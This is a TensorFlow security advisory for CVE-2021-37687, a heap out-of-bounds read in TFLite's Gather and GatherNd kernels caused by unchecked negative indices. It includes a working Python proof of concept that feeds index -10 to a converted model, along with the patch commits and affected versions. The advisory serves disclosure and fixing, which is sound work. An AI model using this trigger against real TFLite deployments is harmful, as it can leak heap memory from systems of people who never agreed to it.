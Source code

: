 ## TFSA-2021-161: Heap OOB in TFLite's `Gather*` implementations

### CVE Number
CVE-2021-37687

### Impact
TFLite's [`GatherNd`
implementation](https://github.com/galeone/tensorflow/blob/149562d49faa709ea80df1d99fc41d005b81082a/tensorflow/lite/kernels/gather_nd.cc#L124)
does not support negative indices but there are no checks for this situation.

Hence, an attacker can read arbitrary data from the heap by carefully crafting a
model with negative values in `indices`.

Similar issue exists in [`Gather`
implementation](https://github.com/galeone/tensorflow/blob/149562d49faa709ea80df1d99fc41d005b81082a/tensorflow/lite/kernels/gather.cc).

```python
import tensorflow as tf
import numpy as np
tf.compat.v1.disable_v2_behavior()

params = tf.compat.v1.placeholder(name="params", dtype=tf.int64, shape=(1,))
indices = tf.compat.v1.placeholder(name="indices", dtype=tf.int64, shape=())

out = tf.gather(params, indices, name='out')

with tf.compat.v1.Session() as sess:
   converter = tf.compat.v1.lite.TFLiteConverter.from_session(sess, [params, indices], [out])
   tflite_model = converter.convert()

interpreter = tf.lite.Interpreter(model_content=tflite_model)
interpreter.allocate_tensors()

input_details = interpreter.get_input_details()
output_details = interpreter.get_output_details()

params_data = np.reshape(np.array([1], dtype=np.int64), newshape=(1,))
indices_data = np.reshape(np.array(-10, dtype=np.int64), newshape=())
interpreter.set_tensor(input_details[0]['index'], params_data)
interpreter.set_tensor(input_details[1]['index'], indices_data)

interpreter.invoke()
```

### Patches
We have patched the issue in GitHub commits
[bb6a0383ed553c286f87ca88c207f6774d5c4a8f](https://github.com/galeone/tensorflow/commit/bb6a0383ed553c286f87ca88c207f6774d5c4a8f)
and
[eb921122119a6b6e470ee98b89e65d721663179d](https://github.com/galeone/tensorflow/commit/eb921122119a6b6e470ee98b89e65d721663179d).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang of Baidu Security.
